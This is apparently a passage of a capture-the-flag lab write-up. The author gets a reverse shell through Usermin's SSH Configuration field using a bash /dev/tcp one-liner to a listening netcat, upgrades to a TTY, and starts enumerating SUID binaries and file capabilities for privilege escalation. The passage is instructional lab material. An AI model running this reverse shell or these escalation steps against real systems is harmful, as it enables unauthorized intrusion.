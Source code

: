 After logging into Usermin, I explored the dashboard. The provided logs indicate attempts to use `searchsploit` for Usermin 1.820 exploits (like `50234.py`), but these attempts failed. Instead, the user directly executed a reverse shell from the Usermin dashboard.

I navigated to a section within Usermin that allowed command execution (e.g., a terminal or a module that executes system commands, often found under "Tools" or "Others"). In this case, the SSH Configuration page provided a convenient input field.

I set up a `netcat` listener on my attacking machine (Kali Linux) on port 4444:

```shellscript
nc -lnvp 4444
```

Then, I entered and executed a reverse shell command in the Usermin interface.

<img width="1356" height="532" alt="image" src="https://github.com/user-attachments/assets/c0a62994-7390-4c3a-93d5-ef8a27691f22" />


This screenshot shows the Usermin interface, specifically the SSH Configuration page. In the terminal-like input area, the command `bash -i >& /dev/tcp/192.168.1.5/4444 0>&1` is visible, indicating the execution of a reverse shell.

Upon executing the command, I received a reverse shell on my `netcat` listener as the `cyber` user:

```plaintext
Connection received on 192.168.1.9 58716
bash: cannot set terminal process group (5912): Inappropriate ioctl for device
bash: no job control in this shell
cyber@breakout:~$
```

I then upgraded to a proper TTY shell for better interaction:

```shellscript
python3 -c "import pty;pty.spawn('/bin/bash')"
```

### Privilege Escalation

Once I had a shell as `cyber`, I began enumerating the system for privilege escalation vectors. I listed the files in the current directory and checked for SUID binaries.

```shellscript
cyber@breakout:~$ ls -la
cyber@breakout:~$ find / -perm -4000 2>/dev/null
```

The `ls -la` command revealed an interesting binary in the current directory: `tar`.

This screenshot shows the Usermin File Manager, displaying the contents of the `/home/cyber` directory. Notable files include `shell.php`, `user.txt`, and `tar` (owned by root with `rwxr-xr-x` permissions, but its capabilities are key).

Further investigation using `getcap` revealed that `/home/cyber/tar` had special capabilities:

```shellscript
cyber@breakout:~$ getcap -r / 2> /dev/null
/home/cyber/tar cap_dac_read_search=ep
/usr/bin/ping cap_net_raw=ep
```
